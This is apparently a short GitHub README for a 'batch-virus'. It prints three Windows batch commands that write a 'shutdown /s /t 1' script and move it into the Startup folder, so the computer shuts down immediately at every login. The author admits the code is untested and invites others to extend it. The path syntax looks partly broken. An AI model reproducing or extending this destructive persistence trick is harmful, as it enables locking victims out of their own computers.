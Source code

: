 # batch-virus
first i am going to put this in here without testing it because i do not i a spare computer because i am broke as hell
ok the first thing is don't do this like don't
the first three lines are the lines that make your computer unusable
cd %HOMEPATH%\desktop
echo shutdown /s /t 1 /c "lol" >suckit.bat
move "C:\%HOMEPATH%\desktop\suckit.bat" "C:\%APPDATA%\Microsoft\Windows\Start Menu\Programs\Startup
now just add stuff on to make it better and when they shutdown their computer it won't startup and for anyone who is willing or has a vm please test this and please set me know if there are issues so i can fix it again I did this on a readme file because I bat experiments and if I accidently click on this well... F%$# so yeah.
